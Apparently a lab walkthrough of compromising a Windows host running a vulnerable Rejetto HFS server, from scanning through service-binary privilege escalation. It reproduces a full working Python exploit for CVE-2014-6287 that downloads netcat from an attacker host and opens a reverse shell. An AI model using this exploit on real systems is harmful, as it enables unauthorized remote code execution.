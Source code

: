 - ### Scanning & Enumeration
	- **nmap** results
		- Fast Scan
			- ![Screenshot 2024-07-28 230303.png](../assets/Screenshot_2024-07-28_230303_1722314700844_0.png)
		- In-Depth Scan
			- ![Screenshot 2024-07-28 230406.png](../assets/Screenshot_2024-07-28_230406_1722314726653_0.png)
			- ![Screenshot 2024-07-28 230332.png](../assets/Screenshot_2024-07-28_230332_1722314739671_0.png)
			- ![Screenshot 2024-07-28 230346.png](../assets/Screenshot_2024-07-28_230346_1722314747620_0.png){:height 285, :width 578}
		- A *Regetto HTTP file server* is served on port `8080`
			- Version - `2.3.x` - vulnerable to `CVE-2014-6287`
- ### Initial Access
	- `auto` with Metasploit
		- ![Screenshot 2024-07-28 230454.png](../assets/Screenshot_2024-07-28_230454_1722315028320_0.png)
		- ![Screenshot 2024-07-28 230511.png](../assets/Screenshot_2024-07-28_230511_1722315042571_0.png)
		- ![Screenshot 2024-07-28 230524.png](../assets/Screenshot_2024-07-28_230524_1722315058227_0.png)
		- ![Screenshot 2024-07-28 230534.png](../assets/Screenshot_2024-07-28_230534_1722315071953_0.png)
	- `manual` without Metasploit
		- Use the `Python2` script from `ExploitDB` - https://www.exploit-db.com/exploits/
			  ```
			  #!/usr/bin/python2
			  # Exploit Title: HttpFileServer 2.3.x Remote Command Execution
			  # Google Dork: intext:"httpfileserver 2.3"
			  # Date: 04-01-2016
			  # Remote: Yes
			  # Exploit Author: Avinash Kumar Thapa aka "-Acid"
			  # Vendor Homepage: http://rejetto.com/
			  # Software Link: http://sourceforge.net/projects/hfs/
			  # Version: 2.3.x
			  # Tested on: Windows Server 2008 , Windows 8, Windows 7
			  # CVE : CVE-2014-6287
			  # Description: You can use HFS (HTTP File Server) to send and receive files.
			  #	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
			  #	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
			   
			  #Usage : python Exploit.py <Target IP address> <Target Port Number>
			  
			  #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
			  #          You may need to run it multiple times for success!
			  
			  
			  import urllib2
			  import sys
			  
			  try:
			  	def script_create():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
			  
			  	def execute_script():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
			  
			  	def nc_run():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
			  
			  	ip_addr = "192.168.44.128" #attack IP address
			  	local_port = "443" # attack Port number
			  	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
			  	save= "save|" + vbs
			  	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
			  	exe= "exec|"+vbs2
			  	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
			  	exe1= "exec|"+vbs3
			  	script_create()
			  	execute_script()
			  	nc_run()
			  except:
			  	print """[.]Something went wrong..!
			  	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
			  	Don't forgot to change the Local IP address and Port number on the script"""
			  	
			              
			  ```
			-
		- An `HTTP` server must be running on the attacker machine so that the script can `GET` the `nc.exe` binary
		  collapsed:: true
			- ![Screenshot 2024-07-30 092901.png](../assets/Screenshot_2024-07-30_092901_1722315984876_0.png)
		- Using the `nc.exe` binary the script will connect back the listener
			- ![Screenshot 2024-07-30 092909.png](../assets/Screenshot_2024-07-30_092909_1722315995005_0.png)
		- The script is run twice for both of the above actions to take place
			- ![Screenshot 2024-07-30 092917.png](../assets/Screenshot_2024-07-30_092917_1722316037939_0.png)
- ### Privilege Escalation
	- `auto` Metasploit
		- Upload `PowerUp.ps1` script to search for *privesc* vectors
			- ![Screenshot 2024-07-28 231504.png](../assets/Screenshot_2024-07-28_231504_1722315224891_0.png)
		- Run `Invoke-AllChecks` to run the script
			- ![Screenshot 2024-07-28 231736.png](../assets/Screenshot_2024-07-28_231736_1722315270611_0.png)
		- Generate `reverse_tcp` payload
			- ![Screenshot 2024-07-28 232318.png](../assets/Screenshot_2024-07-28_232318_1722315333480_0.png)
		- Stop the vulnerable service & Upload the payload [in the execution path of the service]
			- ![Screenshot 2024-07-29 095301.png](../assets/Screenshot_2024-07-29_095301_1722315415555_0.png)
		- Start the service with a running `netcat` listener to capture the shell
			- ![Screenshot 2024-07-29 095353.png](../assets/Screenshot_2024-07-29_095353_1722315482525_0.png)
			- ![Screenshot 2024-07-29 095415.png](../assets/Screenshot_2024-07-29_095415_1722315501627_0.png)
			- ![Screenshot 2024-07-29 095521.png](../assets/Screenshot_2024-07-29_095521_1722315510795_0.png)
	- `manual`
		- For enumeration of `privesc` vectors -> use `WinPEAS`
			- ![Screenshot 2024-07-30 093656.png](../assets/Screenshot_2024-07-30_093656_1722316144315_0.png)
			- ![Screenshot 2024-07-30 093702.png](../assets/Screenshot_2024-07-30_093702_1722316150991_0.png)
		- On running `WinPEAS`
		  collapsed:: true
			- ![Screenshot 2024-07-30 094010.png](../assets/Screenshot_2024-07-30_094010_1722316216532_0.png)
			- ![Screenshot 2024-07-30 093934.png](../assets/Screenshot_2024-07-30_093934_1722316191389_0.png)
			- ![Screenshot 2024-07-30 093951.png](../assets/Screenshot_2024-07-30_093951_1722316199532_0.png)
		- Stop the running service - `sc stop AdvancedSystemCareService9`
		- Get the payload executable from the our HTTP server
			- ![Screenshot 2024-07-30 094950.png](../assets/Screenshot_2024-07-30_094950_1722316303431_0.png)
		- Start the service with the payload in execution path - `sc start AdvancedSystemCareService9`
			- ![124.png](../assets/124_1722316495566_0.png){:height 220, :width 578}
			- ![123.png](../assets/123_1722316551686_0.png)
